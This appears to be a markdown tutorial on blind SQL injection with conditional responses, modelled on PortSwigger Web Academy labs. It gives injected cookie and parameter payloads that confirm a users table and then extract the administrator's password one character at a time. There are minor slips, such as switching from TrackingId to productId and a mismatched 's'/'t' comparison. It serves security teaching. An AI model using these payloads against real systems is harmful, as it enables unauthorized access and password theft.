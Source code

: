 Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Which the application process and uses a SQL query to determine whether this is a known user:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
While this query is vulnerable to SQL Injection, the results are not returned to the user. However, the application does behave differently depending on whether the query returns any data. For example, submitting a recognized `TrackingId` will return a "Welcome back" message in the response.

This type of behavior is enough to be able to exploit blind SQL injection. You can retrieve information by triggering different responses depending on an injected condition.

Using the example above, suppose that the two following requests are sent in turn:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2
```
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
## Example Exploit
Another example, suppose you want to find out if the `users` table does exists and if there is a user account called `Administrator`.
1. You can do this by sending the following input:
```txt
productId=1' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.

2. Now we can change the payload to:
```txt
productId=1' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Verify that the condition is true, confirming that there is a user called `administrator`.
## Example Exploit Continuation
You can also use this technique to find out the password of the user called `administrator` by sending a series of inputs to test the password length:
```txt
productId=1' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When the condition stops being true (i.e when the "Welcome back" message disappears), we have determined the length of the password.

1. We can now then do use the same technique to find out the password one character at a time:
```txt
productId=1' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
Verify that the condition is true, confirming that the first password character is greater than `m`.

2. Next send the following input:
```txt
productId=1' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Verify that the condition is not true, confirming that the first password character is not greater than `s`.

3. Eventually, the following input returns a "Welcome back" message, thereby confirming that the first character is `s`:
```txt
productId=1' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
## Example from PortSwigger Web Academy
The video below uses the Cluster Bomb attack type

[![SQL Injection - Lab #11 Blind SQL injection with conditional responses](https://img.youtube.com/vi/LBG_n9fr8sM/0.jpg)](https://www.youtube.com/watch?v=LBG_n9fr8sM)

The video below uses the Sniper attack type and manual brute forcing

[![Blind SQL injection with conditional responses (Video solution, Audio)](https://img.youtube.com/vi/M5Ko7F1_co4/0.jpg)](https://www.youtube.com/watch?v=M5Ko7F1_co4)